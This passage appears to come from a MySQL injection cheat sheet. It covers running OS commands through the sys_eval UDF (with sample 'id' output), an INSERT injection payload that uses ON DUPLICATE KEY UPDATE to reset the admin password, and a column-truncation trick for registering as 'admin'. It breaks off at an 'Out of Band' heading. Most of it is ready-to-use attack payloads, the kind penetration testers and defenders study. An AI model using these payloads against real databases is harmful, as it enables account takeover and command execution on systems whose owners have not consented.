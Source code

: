 Then you can use functions such as `sys_exec` and `sys_eval`.

```sql
$ mysql -u root -p mysql
Enter password: [...]

mysql> SELECT sys_eval('id');
+--------------------------------------------------+
| sys_eval('id') |
+--------------------------------------------------+
| uid=118(mysql) gid=128(mysql) groups=128(mysql) |
+--------------------------------------------------+
```


## MYSQL INSERT

`ON DUPLICATE KEY UPDATE` keywords is used to tell MySQL what to do when the application tries to insert a row that already exists in the table. We can use this to change the admin password by:

Inject using payload:

```sql
attacker_dummy@example.com", "P@ssw0rd"), ("admin@example.com", "P@ssw0rd") ON DUPLICATE KEY UPDATE password="P@ssw0rd" --
```

The query would look like this:

```sql
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "BCRYPT_HASH"), ("admin@example.com", "P@ssw0rd") ON DUPLICATE KEY UPDATE password="P@ssw0rd" -- ", "BCRYPT_HASH_OF_YOUR_PASSWORD_INPUT");
```

This query will insert a row for the user "attacker_dummy@example.com". It will also insert a row for the user "admin@example.com".

Because this row already exists, the `ON DUPLICATE KEY UPDATE` keyword tells MySQL to update the `password` column of the already existing row to "P@ssw0rd". After this, we can simply authenticate with "admin@example.com" and the password "P@ssw0rd".


## MYSQL Truncation

In MYSQL "`admin `" and "`admin`" are the same. If the username column in the database has a character-limit the rest of the characters are truncated. So if the database has a column-limit of 20 characters and we input a string with 21 characters the last 1 character will be removed.

```sql
`username` varchar(20) not null
```

Payload: `username = "admin               a"`


## MYSQL Out of Band
